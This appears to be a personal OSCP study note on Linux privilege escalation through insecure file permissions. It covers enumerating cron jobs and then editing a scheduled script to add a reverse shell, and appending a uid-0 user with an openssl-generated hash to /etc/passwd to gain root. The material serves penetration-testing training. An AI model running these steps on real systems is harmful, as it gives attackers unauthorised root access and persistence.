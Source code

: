 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/9-linux-privilege-escalation/5-insecure-file-permissions/"}
---
```


------------
## Abusing Cronjobs
1. Enumerate cronjobs:
```
# Cronjobs for all users
ls -lah /etc/cron*

#User-created cronjobs for the current user
crontab -l

#Running cronjobs:
grep "CRON" /var/log/syslog
cat /var/log/cron.log
```
2. Inspect running script:
```
cat /home/joe/.scripts/user_backups.sh
```
3. Edit script to add reverse shell. Win!

------
## Abusing /etc/passwd
- Historically hashes could be stored alongside user information in /etc/passwd
- If one can edit /etc/passwd a hash can be placed for a user it takes precedence over /etc/shadow, hence arbitrary password and user change
1. Generate password hash:
```
openssl passwd <arbitrarypassword>
```
2. Echo the hash plus user info into /etc/passwd:
```
echo "<username>:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
3. Switch user to your new user and provide the password:
```
su <newuser>
```
4. Win!

